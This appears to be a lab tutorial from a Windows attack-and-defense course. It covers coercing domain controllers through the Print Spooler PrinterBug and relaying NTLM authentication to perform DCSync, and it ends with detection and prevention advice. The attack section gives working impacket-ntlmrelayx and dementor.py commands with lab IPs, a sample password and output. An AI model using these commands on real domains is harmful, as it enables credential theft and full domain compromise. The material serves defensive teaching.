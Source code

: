 # windows_attack_defense
### Print Spooler & NTLM Relaying Attack
The Print Spooler is an old service enabled by default, even with the latest Windows Desktop and Servers versions. The service became a popular attack vector when in 2018, Lee Christensen found the PrinterBug. The functions *RpcRemoteFindFirstPrinterChangeNotification* and *RpcRemoteFindFirstPrinterChangeNotificationEx* can be abused to force a remote machine to perform a connection to any other machine it can reach. Moreover, the reverse connection will carry authentication information as a TGT. Therefore, any domain user can coerce RemoteServer$ to authenticate to any machine. Microsoft's stance on the PrinterBug was that it will not be fixed, as the issue is "by-design".

The impact of PrinterBug is that any Domain Controller that has the Print Spooler enabled can be compromised in one of the following ways:

1. Relay the connection to another DC and perform DCSync (if SMB Signing is disabled).
1. Force the Domain Controller to connect to a machine configured for Unconstrained Delegation (UD) - this will cache the TGT in the memory of the UD server, which can be captured/exported with tools like Rubeus and Mimikatz.
1. Relay the connection to Active Directory Certificate Services to obtain a certificate for the Domain Controller. Threat agents can then use the certificate on-demand to authenticate and pretend to be the Domain Controller (e.g., DCSync).
1. Relay the connection to configure Resource-Based Kerberos Delegation for the relayed machine. We can then abuse the delegation to authenticate as any Administrator to that machine.

**Attack**

In this attack path, we will relay the connection to another DC and perform DCSync (i.e., the first compromise technique listed). For the attack to succeed, SMB Signing on Domain Controllers must be turned off.

To begin, we will configure NTLMRelayx to forward any connections to DC2 and attempt to perform the DCSync attack:

```
Dennis-44@htb[/htb]$ impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

Next, we need to trigger the PrinterBug using the Kali box with NTLMRelayx listening. To trigger the connection back, we'll use Dementor (when running from a non-domain joined machine, any authenticated user credentials are required, and in this case, we assumed that we had previously compromised Bob):

```
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123

[*] connecting to 172.16.18.3
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!
```
Now, switching back to the terminal session with NTLMRelayx, we will see that DCSync was successful:

![dcsync_successful_ntlm](./img/hashes.png)

### Print Spooler & NTLM Relaying Detection
Exploiting the PrinterBug will leave traces of network connections toward the Domain Controller; however, they are too generic to be used as a detection mechanism.

In the case of using NTLMRelayx to perform DCSync, no event ID 4662 is generated (as mentioned in the DCSync section); however, to obtain the hashes as DC1 from DC2, there will be a successful logon event for DC1. This event originates from the IP address of the Kali machine, not the Domain Controller, as we can see below:

![detect ntlm relay dcsync](./img/detectDCSync_ntlm.png)
A suitable detection mechanism always correlates all logon attempts from core infrastructure servers to their respective IP addresses (which should be static and known).

### Print Spooler & NTLM Relaying Prevention
Print Spooler should be disabled on all servers that are not printing servers. Domain Controllers and other core servers should never have additional roles/functionalities that open and widen the attack surface toward the core AD infrastructure.

Additionally, there is an option to prevent the abuse of the PrinterBug while keeping the service running: when disabling the registry key RegisterSpoolerRemoteRpcEndPoint, any incoming remote requests get blocked; this acts as if the service was disabled for remote clients. Setting the registry key to 1 enables it, while 2 disables it:

![registry](./img/registry.png)
